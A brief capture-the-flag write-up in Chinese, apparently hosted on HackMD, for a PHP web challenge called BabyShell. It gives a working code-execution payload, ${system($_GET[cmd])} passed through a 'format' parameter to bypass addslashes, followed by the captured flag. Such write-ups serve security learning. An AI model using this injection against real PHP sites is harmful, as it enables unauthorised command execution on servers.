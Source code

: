 ```yaml
---
title: BabyShell

---
```


## Babyshell
hackmd 連結 : [BabyShell](https://hackmd.io/@yeyeye618/HkKzHd5seg)
熟悉的名稱
![image](https://hackmd.io/_uploads/rJhXrO5jxx.png)


熟悉的介面
![image](https://hackmd.io/_uploads/Sk1tqu9sgx.png)


熟悉的 TimeModel
![image](https://hackmd.io/_uploads/S1fur_9ilg.png)

看起來都是一樣的打法
用 ${} 做 f string 注入
而且要用 $_GET[] 做 addslash 的 bypass
```
/?format=${system($_GET[cmd])}&cmd=ls
```
![image](https://hackmd.io/_uploads/rklTSd5jgl.png)
成功

撈 flag
![image](https://hackmd.io/_uploads/rkY48Oqsgg.png)
flag: `is1abCTF{m4yb3_y0u'r3_n07_4_b4by}`